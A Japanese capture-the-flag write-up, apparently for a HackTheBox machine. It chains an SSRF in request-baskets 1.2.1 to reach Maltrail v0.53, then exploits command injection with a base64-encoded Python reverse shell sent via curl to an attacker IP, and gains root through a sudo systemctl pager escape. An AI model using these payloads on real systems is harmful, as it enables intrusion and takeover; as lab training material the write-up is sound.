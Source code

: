 #### nmap

port555555にブラウザでアクセスする
![](../images/20230821061029.png)

新しいバスケットを作成
![](../images/20230821061250.png)
「Open Backet」で送信する
![](../images/20230821061618.png)
いくつかのオプションを設定できる
この機能を使えば、このバスケットに送られたリクエストを、ここに貼り付けた任意のURLにリダイレクトすることができる。
「任意の」URL を貼り付けてもよいでしょうか? ネットワーク内でも???
![](../images/20230821061945.png)

>"forward_url"：クライアントのリクエストをどこに転送するかをサーバに伝えます。
>"proxy_response" : クライアントがリクエストから返ってきた情報を知りたい場合にサーバーに指示する。
 >"insecure_tls" : サーバにSSL証明書のCAを検証させたくない場合。

ページの下に[[request-baskets Version1.21]]が表示されている
![](../images/20230821062645.png)
検索っしてみるとSSRFの脆弱性があることが分かる
###### 参照
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

「Configuration Settings」のURLに「http://127.0.0.1:80/login」全部のチェックボックスにチェックを入れて「Apply」を押す

URLに先ほど作成したBasketsのアドレスを入れる

![](../images/20230821065216.png)

proxy_responseをtrueに設定した理由を説明します。リクエストバスケットのドキュメントを読んだ後、それが何であるか、それがどのように機能するかについての一般的な概念を得ました。転送URLを設定すると、バスケットにリクエストがキャッチされ、設定したURLに転送されます。プロキシ応答をtrueに設定すると、バスケットURLをリクエストすると、リクエストがForward URLに転送されるだけでなく、ブラウザで応答が表示されます。

ページの下に[[Maltrail v0.53]]が表示されている。
これにはOS command injectionの脆弱性がある


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' | base64
```

```BASH
curl 'http://10.10.11.224:55555/babesket' -d 'username=;`echo "base64でエンコードした物を入れる" | base64 -d | bash`'
```

または
```bash
git clone https://github.com/massco99/htb_sau.git
```

リスナーを起動しておけばシェルがとれる

![](../images/20230821071929.png)

#### 権限昇格

```BASH
puma$ sudo -S -l
... snip ...
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```BASH
puma$ sudo /usr/bin/systemctl status trail.service
> WARNING: terminal is not fully functional
> -  (press RETURN)
> ● trail.service - Maltrail. Server of malicious traffic detection system
>      Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
>      Active: active (running) since Thu 2023-07-27 20:59:09 UTC; 38min ago
>        Docs: https://github.com/stamparm/maltrail#readme
>              https://github.com/stamparm/maltrail/wiki
>    Main PID: 894 (python3)
>       Tasks: 27 (limit: 4662)
>      Memory: 46.1M
>      CGroup: /system.slice/trail.service
>              ├─ 894 /usr/bin/python3 server.py
>              ├─ 949 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 950 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 952 bash
>              ├─ 953 /bin/bash -c bash -i >& /dev/tcp/10.10.16.101/9999 0>&1
>              ├─ 954 bash -i
>              ├─ 985 sh
>              ├─1001 /bin/bash
>              ├─1003 /bin/sh
>              ├─1022 script /dev/null /bin/bash
>              ├─1023 bash -i
>              ├─1030 sudo /usr/bin/systemctl status trail.service
>              ├─1031 /usr/bin/systemctl status trail.service
>              ├─1032 pager
> lines 1-23~
```

```BASH
> lines 1-23~!sh
>> root# id
>>> uid=0(root) gid=0(root) groups=0(root)
```








